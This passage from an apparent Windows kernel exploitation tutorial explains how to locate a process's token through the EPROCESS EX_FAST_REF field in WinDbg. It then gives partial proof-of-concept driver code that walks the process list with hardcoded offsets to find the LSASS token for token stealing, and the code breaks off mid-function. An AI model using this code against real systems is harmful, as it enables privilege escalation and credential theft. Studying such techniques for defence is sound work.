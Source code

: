 ```
kd> dt _eprocess ffffe48455c32240 token
ntdll!_EPROCESS
   +0x4b8 Token : _EX_FAST_REF
```

The `_EX_FAST_REF` union holds a pointer to the process' token. Depending on the process, the token can give you elevated or administrative privileges. Processes like LSASS give you a high-enough privilege for many red-team engagements or real-world malware. Because of that, it is the topic of many writeups.

Unfortunately, the pointer in the union is not correctly aligned by default:

```
kd> dt _ex_fast_ref ffffe48455c32240+0x4b8
ntdll!_EX_FAST_REF
   +0x000 Object           : 0xffffbb04`90d2106d Void
   +0x000 RefCnt           : 0y1101
   +0x000 Value            : 0xffffbb04`90d2106d
```

The *RefCnt* bits `1101` will need to be dropped in order to get the token's location:

```
>>> hex ( 0xffffbb0490d2106d & ~0xf )
'0xffffbb0490d21060'
```

You can confirm your findings using the "easy way" in WinDbg:

```
kd> !token 0xffffbb0490d21060
_TOKEN 0xffffbb0490d21060

    // Token data dumps here...
```

From the attacker's point of view, it's useful to know that the underlying data type of an `EX_FAST_REF` is a union. Knowing this, we can discard the last three bits of *RefCnt*, because we know it's extra data, not part of the token's address.

# Exploitation example

We can use the following driver code for WDM to get an LSASS token. This is just proof-of-concept code, littered with manual offsets, and targeting one specific Windows version (Windows 10 2H22). It's important to note that the Windows Driver Kit does not include many definitions, including the full EPROCESS structure, so we use offsets to get the same data "the hard way."

```c
QWORD*
GetLsassToken()
{
    PEPROCESS process = PsInitialSystemProcess;

    // EPROCESS.activeProcessLinks at offset EPROCESS+0x448
    PLIST_ENTRY activeProcessLinks = (PLIST_ENTRY)((unsigned char *)process+0x448);
    
    // EPROCESS.ImageFileName at offset EPROCESS+0x5a8
    PCHAR imageFileName = (PCHAR)((char *)process + 0x5a8);
    int r = -1;
    QWORD* tokenPtr = NULL;

    while (1) {
        // KPROCESS base at EPROCESS.activeProcessLinks-0x448
        process = (PEPROCESS)(((char *)activeProcessLinks->Flink) - 0x448);
        if (process == PsInitialSystemProcess) break;
        imageFileName = (PCHAR)((char *)process + 0x5a8);
        activeProcessLinks = activeProcessLinks->Flink;
        if (_strnicmp(imageFileName, "lsass.exe", 15) == 0) break;
```